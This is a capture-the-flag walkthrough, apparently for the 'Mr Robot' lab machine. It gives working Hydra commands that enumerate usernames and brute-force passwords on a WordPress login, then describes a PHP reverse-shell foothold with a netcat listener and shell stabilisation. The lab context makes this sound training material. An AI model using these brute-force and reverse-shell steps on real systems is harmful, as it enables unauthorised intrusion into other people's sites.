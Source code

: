 **Robots**
```
http://10.10.239.79/robots.txt
```
Also discovered **key-1** endpoint and dictionary file `fsocity.dic` (see Web/WordPress).

---

## 🕸️ Web & WordPress

**Login page**
```
http://MACHINE_IP/wp-login
```

**Hydra — enumerate valid user**
```bash
hydra -L fsocity.dic -p test MACHINE_IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username"
```
Result:
- Valid user identified ➜ <details><summary><strong>Reveal Username</strong></summary></details>

**Prepare clean wordlist (remove duplicates)**
```bash
sort fsocity.dic | uniq > fsocity_sorted.dic
```

**Hydra — password bruteforce for known user**
```bash
hydra -l Elliot -P fsocity_sorted.dic MACHINE_IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:S=302"
```
Result:
- Password found ➜ <details><summary><strong>Reveal Password</strong></summary></details>

**Admin Panel**
```
http://1MACHINE_IP/wp-admin/
```

**Foothold via PHP Reverse Shell**
- Upload a PHP reverse shell (e.g., via Theme Editor or vulnerable upload).
- Configure your listener locally, then trigger the shell page.

Listener:
```bash
nc -nlvp 9001
```

Trigger the shell (example endpoint):
```
http://MACHINE_IP/pwned
```

Stabilize the shell:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

---